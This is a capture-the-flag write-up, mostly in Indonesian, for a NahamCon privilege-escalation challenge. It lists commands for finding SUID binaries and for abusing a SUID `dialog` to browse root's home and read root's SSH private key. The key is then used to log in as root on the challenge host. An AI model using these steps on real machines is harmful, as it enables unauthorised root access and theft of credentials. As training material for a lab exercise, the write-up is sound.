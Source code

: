 # Gossip
#easy #privilegeescalation


Ssshh, don't talk too loud! These conversations and gossip are only for us privileged users ;)  
  
Escalate your privileges and retrieve the flag out of root's home directory.  
  
There is intentionally no `/root/flag.txt` file present.

## Target
- Di sini kita terhubung dengan ssh sebagai user biasa, kemungkinan flag terdapat di root folder.  
![](attachments/Pasted%20image%2020220506135315.png)

## Solusi
- Salah satu cara untuk melakukan privilege escalation adalah mencari SUID atau permission 4000 pada Linux.  
```sh
find / -type f -perm -4000 2>/dev/null
```
![](attachments/Pasted%20image%2020220506135830.png)  

- Terdapat dialog pada gtfobin: https://gtfobins.github.io/#dialoog.  
![](attachments/Pasted%20image%2020220506135936.png)  

- Coba bermain dengan dialog  
```shell
dialog --fselect /root 100 100
```

- Kita tidak bisa membaca getflag, karena adalah binary executable. Namun di sana terdapat `id_rsa` yang bisa digunakan untuk melakukan eskalasi.  
![](attachments/Pasted%20image%2020220506141124.png)  

- Yups terbaca sebuah kunci untuk melakukan ssh.  
![](attachments/Pasted%20image%2020220506141245.png)  

- Kita paste id_rsa tersebut, namun file yang dihasilkan sangat kotor. Terdapat banyak sekali spasi dan tanda `|` yang menyebabkan kunci ini tidak bisa dipakai.   
![](attachments/Pasted%20image%2020220506141551.png)  

- Dengan menggunakan sed, kita bersihkan id_rsa tersebut. 
```sh
sed -i 's/│//g'
sed -i 's/^[ /t]*//g'
sed -i 's/[ /t]*$//g'
```

- Hasil setelah dibersihkan dari karakter yang tidak digunakan. 
![](attachments/Pasted%20image%2020220506144420.png)  

- Dicek apakah id_rsa ini sudah bisa digunakan?  
![](attachments/Pasted%20image%2020220506150158.png)  

- Sebagai persyaratan untuk konek ke ssh, permission harus sesuai.  
```sh
chmod 400 id_rsa
```

- Konek ke ssh menggunakan id_rsa yang sudah dibersihkan.
```sh
ssh -i "id_rsa" -p 31366 root@challenge.nahamcon.com
```

- Get flag!  
![](attachments/Pasted%20image%2020220506150614.png)

